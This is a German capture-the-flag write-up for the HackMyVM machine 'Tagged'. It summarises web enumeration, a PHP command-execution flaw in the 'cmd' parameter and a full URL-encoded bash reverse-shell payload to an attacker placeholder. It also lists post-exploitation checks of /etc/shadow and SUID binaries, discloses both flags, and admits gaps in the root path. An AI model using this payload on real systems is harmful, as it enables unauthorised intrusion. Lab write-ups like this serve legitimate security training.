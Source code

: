# Tagged - HackMyVM (Medium)
 
![Tagged.png](Tagged.png)

## Übersicht

*   **VM:** Tagged
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Tagged)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 14. November 2022
*   **Original-Writeup:** https://alientec1908.github.io/Tagged_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Tagged"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration eines Webservers (Port 80), der eine sehr kleine `index.php` bereitstellte. Ein Kommentar im HTML-Quellcode der Hauptseite enthielt einen Hinweis auf einen VHost (beginnend mit "xxx"). Ein weiterer, im Log nicht klar hergeleiteter Hinweis (`nice ports,/Trinity.txt.bak`) war entscheidend. Die Schwachstelle für den initialen Zugriff war eine Remote Command Execution (RCE) in `index.php` über den GET-Parameter `cmd`. Dies ermöglichte die Ausführung einer Reverse Shell als `www-data`. Nach der Stabilisierung der Shell und weiterer Enumeration (Benutzer `shyla`, `uma` identifiziert) wurde die User-Flag gefunden. Der genaue Weg zur Root-Privilegieneskalation und zum Auffinden der Root-Flag (möglicherweise `/Trinity.txt.bak`?) ist im bereitgestellten Log nicht dokumentiert.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `curl`
*   `nikto`
*   `nc` (netcat)
*   `wfuzz`
*   `python3`
*   `find`
*   `grep`
*   `ls`
*   `cat`
*   `printenv`
*   `ss`
*   `getcap`
*   `capsh`
*   `setcap`
*   `systemctl`
*   `stty`
*   `fg`
*   `reset`
*   Standard Linux-Befehle (`cd`, `id`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Tagged" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Findung mit `arp-scan` (`192.168.2.118`).
    *   `nmap`-Scan identifizierte offene Ports: 80 (HTTP - Nginx 1.18.0) und 7746 (unbekannter Dienst, der später nicht erreichbar war).
    *   `gobuster` auf Port 80 fand `index.html`, eine sehr kleine `index.php` (26 Bytes) und leere `report.html`/`report.php`.
    *   `curl http://192.168.2.118` offenbarte einen HTML-Kommentar mit dem Hinweis `` auf einen VHost.
    *   Ein weiterer, im Log nicht hergeleiteter Hinweis: `nice ports,/Trinity.txt.bak`.

2.  **Initial Access (RCE via Web):**
    *   *Die genaue Entdeckung der RCE-Schwachstelle in `index.php` ist im Log nicht dokumentiert.*
    *   Ausnutzung einer Remote Command Execution (RCE) Schwachstelle in `index.php` über den GET-Parameter `cmd`.
    *   Payload für eine Reverse Shell: `http://192.168.2.118/index.php?cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F[Angreifer-IP]%2F9001%200%3E%261%27`.
    *   Erlangung einer interaktiven Shell als Benutzer `www-data` nach Stabilisierung.

3.  **Post-Exploitation / Enumeration als `www-data`:**
    *   Identifizierung der Benutzer `shyla` und `uma` durch Auflisten von `/home/`.
    *   Überprüfung der Berechtigungen von `/etc/passwd` und `/etc/shadow` (kein direkter Zugriff auf Shadow-Hashes).
    *   Untersuchung von SUID-Binaries, Umgebungsvariablen (`HOME=/var/www`), Capabilities und Systemd-Timern ergab keine direkten Eskalationspfade für `www-data`.
    *   Die User-Flag `g0disah4ck3r` wurde gefunden (Pfad nicht explizit im Log, aber als `www-data` oder später).

4.  **Privilege Escalation (zu `root`):**
    *   *Der detaillierte Weg zur Root-Privilegieneskalation und zum Auffinden der Root-Flag ist im bereitgestellten Log nicht dokumentiert.*
    *   Es wird vermutet, dass der Hinweis `/Trinity.txt.bak` eine Rolle spielte.

## Wichtige Schwachstellen und Konzepte

*   **Hinweise in HTML-Kommentaren:** Ein VHost-Hinweis wurde in einem HTML-Kommentar gefunden.
*   **Remote Command Execution (RCE) in PHP:** Die Datei `index.php` war anfällig für RCE über den `cmd`-Parameter, was den initialen Zugriff ermöglichte.
*   **Informationslecks (potenziell `/Trinity.txt.bak`):** Eine Backup-Datei könnte sensible Informationen enthalten haben (Spekulation, da nicht im Detail ausgeführt).
*   **Ungewöhnlicher Port (7746):** Ein nicht standardmäßiger Port wurde initial identifiziert, war aber später nicht erreichbar.

## Flags

*   **User Flag (`user.txt`):** `g0disah4ck3r`
*   **Root Flag (`root.txt` / evtl. `Trinity.txt.bak`):** `HMVrep0rtz!` (Weg zur Erlangung nicht im Log dokumentiert)

## Tags

`HackMyVM`, `Tagged`, `Medium`, `RCE`, `PHP`, `VHost Enumeration`, `Command Injection`, `Linux`, `Web`, `Privilege Escalation` (teilweise)
